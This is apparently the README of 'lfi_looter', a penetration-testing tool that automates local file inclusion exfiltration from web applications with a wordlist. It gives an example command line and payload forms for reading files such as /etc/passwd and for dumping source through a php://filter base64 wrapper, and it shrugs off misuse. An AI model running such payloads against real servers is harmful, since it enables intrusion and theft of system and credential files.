

# lfi_looter
Automates the LFI data exfiltration process using a wordlist of your choice, allows you to exfil data to a directory. 
There are two modes to this tool, looter and console. Looter automates the process using a wordlist where as console allows you to manually exfil files 

Looter: 

Console: 

Example usage: ./lfi_looter.py -t http://127.0.0.1:8000/index.php?file= -w list.txt -o exfil 

Ensure the target (-t flag) is formatted properly, no need to file=FUZZ, simply leave it blank: 
  Format: http://example.com:8000/index.php?file= [your wordlist line value will be plugged directly into here(Ex: /etc/passwd/] 
  Or something like: http://example:8000/index.php?file=php://filter/convert.base64-encode/resource=file://

Intended for ethical hacking purposes, but I can't stop you...

